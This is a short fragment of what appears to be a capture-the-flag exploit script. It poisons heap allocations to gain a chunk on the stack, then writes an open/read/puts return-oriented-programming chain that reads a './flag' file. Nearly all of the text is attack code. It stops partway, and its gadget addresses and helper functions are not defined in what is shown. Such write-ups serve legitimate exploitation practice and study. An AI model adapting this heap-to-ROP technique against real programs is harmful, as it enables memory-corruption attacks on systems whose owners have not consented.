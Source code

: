 ```bash

delete(3)
delete(2)

add(0x90,p64(0)+p64(0x91)+p64(stack_addr))
add(0x80,'aaaa')

flag_addr = stack_addr
ppp=stack_addr+0x200

pl=b'./flag\x00\x00'
pl+=p64(pop_rdi_ret)+p64(flag_addr)+p64(pop_rsi_ret)+p64(0)+p64(open_addr)
pl+=p64(pop_rdi_ret)+p64(3)+p64(pop_rsi_ret)+p64(ppp)+p64(pop_rdx_ret)+p64(0x50)+p64(read_addr)
pl+=p64(pop_rdi_ret)+p64(ppp)+p64(puts_addr)
add(0x80, pl)

'''
'''
#duan()
itr()
```
